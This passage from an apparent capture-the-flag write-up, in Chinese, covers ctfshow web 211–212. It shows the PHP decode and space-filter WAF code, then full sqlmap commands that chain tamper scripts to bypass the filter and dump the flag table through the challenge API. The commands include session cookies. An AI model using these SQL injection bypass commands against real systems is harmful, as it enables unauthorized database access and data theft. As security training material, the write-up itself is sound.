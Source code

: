 ## web 211

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}
```

在上一题的基础上过滤了空格，sqlmap可以同时使用多个绕过脚本，用逗号`,`隔开，例如--tamper space2comment.py,show-web210.py

在上一题的payload的tamper后使用注释绕过空格的脚本，以及web210的脚本。先使用`space2comment.py`拿到注释绕过空格的payload，再使用`show-web210.py`拿到反转加密的payload，拿到最终的payload

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs 
# 爆表 ctfshow_flavia
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs -D ctfshow_web --tables
# 爆字段  ctfshow_flagxxa
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavia --columns
# 爆金币 <blank>
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavia --columns -C ctfshow_flagxxa --dump
```

## web 212

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```
